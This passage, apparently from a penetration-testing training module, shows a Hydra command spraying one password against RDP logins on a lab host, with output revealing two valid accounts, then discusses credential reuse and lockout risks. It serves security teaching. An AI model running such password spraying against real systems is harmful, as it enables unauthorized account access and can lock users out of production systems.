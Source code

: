 ```
kali@kali:~$ echo -e "daniel\njustin" | sudo tee -a /usr/share/wordlists/dirb/others/names.txt

kali@kali:~$ hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
...
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:14344399/p:1), ~3586100 tries per task
[DATA] attacking rdp://192.168.50.202:3389/
...
[3389][rdp] host: 192.168.50.202   login: daniel   password: SuperS3cure1337#
[ERROR] freerdp: The connection failed to establish.
[3389][rdp] host: 192.168.50.202   login: justin   password: SuperS3cure1337#
[ERROR] freerdp: The connection failed to establish.
...
```

> Listing 3 - Spraying a password on RDP service

The password attack for the selected list will take about 15 minutes to uncover the two valid credentials." To expedite the process, we can create a list that only contains two lines, "daniel" and "justin".

In this case, we identified two usernames with the password we discovered in the database leak. We should always try to leverage every plaintext password we discover by spraying them against the target's systems. This could reveal users that use the same password across multiple systems. However, we must also use caution when leveraging broad-range attacks.

Dictionary attacks generate a lot of noise in terms of logs, events, and traffic. While a huge amount of network traffic can bring down a network, the reactions of various security technologies could be even more undesirable. For example, a basic brute force protection program could lock a user's account after three failed login attempts. In a real-world penetration test, this could lead to a situation in which we lock users out of critical production systems. Before indiscriminately launching tools, we must perform a thorough enumeration to identify and avoid these risks.

In this section, we performed dictionary attacks on the common SSH and RDP network services. While Hydra makes the process straightforward for most protocols, some protocols require more information. We'll explore this with HTTP POST login forms in the next section.

Before we head into the first exercises of this Module, we need to be aware that the process of attacking authentication on a target shouldn't take longer than three minutes in the exercises or the challenge labs. If the process takes longer, double-check your command and arguments or consider a different approach.

## Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

| 
Name

(Click to sort ascending) | 
